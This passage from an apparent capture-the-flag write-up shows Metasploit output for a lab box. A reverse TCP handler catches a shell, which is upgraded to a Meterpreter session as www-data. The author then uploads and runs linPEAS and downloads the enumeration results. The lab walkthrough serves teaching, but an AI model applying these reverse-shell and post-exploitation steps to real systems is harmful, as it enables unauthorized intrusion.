 ```bash
[*] Started reverse TCP handler on 10.10.253.137:4433 
[*] Sending stage (980808 bytes) to 10.10.215.86
[*] Meterpreter session 2 opened (10.10.253.137:4433 -> 10.10.215.86:55326) at 2020-12-05 05:33:23 +0000
[*] Command stager progress: 100.00% (773/773 bytes)
[*] Post module execution completed
msf5 post(multi/manage/shell_to_meterpreter) > sessions 

Active sessions
===============

  Id  Name  Type                   Information                                                           Connection
  --  ----  ----                   -----------                                                           ----------
  1         meterpreter php/linux  www-data (33) @ internal                                              10.10.253.137:4444 -> 10.10.215.86:58660 (10.10.215.86)
  2         meterpreter x86/linux  no-user @ internal (uid=33, gid=33, euid=33, egid=33) @ 10.10.215.86  10.10.253.137:4433 -> 10.10.215.86:55326 (10.10.215.86)
```

Once this completed I killed the original session, and replaced the site index with it's original template, returning the site to its normal appearance.

### Enumerating the local user

Now that I had a shell, I started by running `linPEAS` to gain an initial impression of what else was running on the host.

```bash
msf5 post(multi/manage/shell_to_meterpreter) > use 2
[*] Starting interaction with 2...

meterpreter > getuid 
Server username: no-user @ internal (uid=33, gid=33, euid=33, egid=33)
meterpreter > cd /tmp/
meterpreter > upload /root/Desktop/PEASS/linPEAS/linpeas.sh
[*] uploading  : /root/Desktop/PEASS/linPEAS/linpeas.sh -> linpeas.sh
[*] Uploaded -1.00 B of 217.36 KiB (-0.0%): /root/Desktop/PEASS/linPEAS/linpeas.sh -> linpeas.sh
[*] uploaded   : /root/Desktop/PEASS/linPEAS/linpeas.sh -> linpeas.sh
meterpreter > shell 
Process 6521 created.
Channel 3 created.
chmod +x linpeas.sh
./linpeas.sh > internal_local_enum.txt
```

```bash
meterpreter > download internal_local_enum.txt
[*] Downloading: internal_local_enum.txt -> /root/ctf/internal_local_enum.txt
[*] Downloaded 124.65 KiB of 124.65 KiB (100.0%): internal_local_enum.txt -> /root/ctf//internal_local_enum.txt
[*] download   : internal_local_enum.txt -> /root/ctf//internal_local_enum.txt
```
